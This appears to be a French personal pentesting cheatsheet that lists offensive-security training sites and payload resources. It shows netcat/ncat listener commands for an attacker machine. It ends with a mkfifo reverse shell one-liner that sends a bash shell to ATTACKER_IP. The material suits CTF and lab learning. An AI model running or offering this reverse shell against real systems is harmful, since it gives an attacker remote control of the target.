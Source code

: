 ```yaml
---
name: Boîte à outils
tools: [Cheatsheet]
image: "https://cdn.pixabay.com/photo/2014/04/02/16/18/toolbox-306888_960_720.png"
description: Les outils et commandes les plus utiles
---
```


# Boîte à outils <!-- omit in toc -->

## Sommaire <!-- omit in toc -->

* [1. Site web](#1-site-web)
* [2. Commandes](#2-commandes)
  * [2.1 Côté machine d'attaque](#21-côté-machine-dattaque)
    * [2.1.1 Mise en écoute](#211-mise-en-écoute)
  * [2.2 Côté cible](#22-côté-cible)
    * [2.2.1 Pipe reverse shell](#221-pipe-reverse-shell)

## 1. Site web

1. [TryHackMe](https://tryhackme.com/) : Formations et exercices de cybersécurité
2. [HackTheBox](https://www.hackthebox.com/) : Formations et exercices de cybersécurité (aspect compétitif)
3. [GTFOBins](https://gtfobins.github.io/) : Techniques d'élévation de privilèges en exploitant les failles des binaires Linux
4. [LOLBAS](https://lolbas-project.github.io/#) : Equivalent de GTFOBins pour Windows
5. [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/) : Recueil de nombreuses charges permettant d'exploiter des vulnérabilités
6. [ExploitDB](https://www.exploit-db.com/) : Base recensant des vulnérabilités et les moyens de les exploiter
7. [CyberChef](https://gchq.github.io/CyberChef/) : Manipulation de données, chiffrement, déchiffrement

## 2. Commandes

### 2.1 Côté machine d'attaque

#### 2.1.1 Mise en écoute

##### 2.1.1.1 Plus simple, préinstallé : Netcat

```bash
netcat -lvnp 9000
# ou
nc -lvnp 9000
```

> * `-l` : mode écoute (*listen*)
> * `-n` : pas de résolution DNS
> * `-v` : mode verbeux
> * `-p` : pour spécifier le port

##### 2.1.1.2 Netcat amélioré : Ncat

Développé et distribué par l'équipe en charge de l'outil Nmap, `ncat` intègre notamment le SSL pour interagir avec des shells chiffrés.

```bash
ncat -lvnp 9000
```

##### 2.1.1.3 Activer l'historique de commandes

Par défaut, Netcat, quelque soit la version citée plus haut, ne permet pas d'utiliser les commandes précédentes avec la flèche du haut, contrairement au shell Linux de base.

```bash
rlwrap nc -lvnp 9000
```

Pour ma part, j'ai créé un alias pour utiliser rapidement la mise en écoute la plus complète possible :

```bash
alias nc='rlwrap ncat'
```

### 2.2 Côté cible

#### 2.2.1 Pipe reverse shell

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
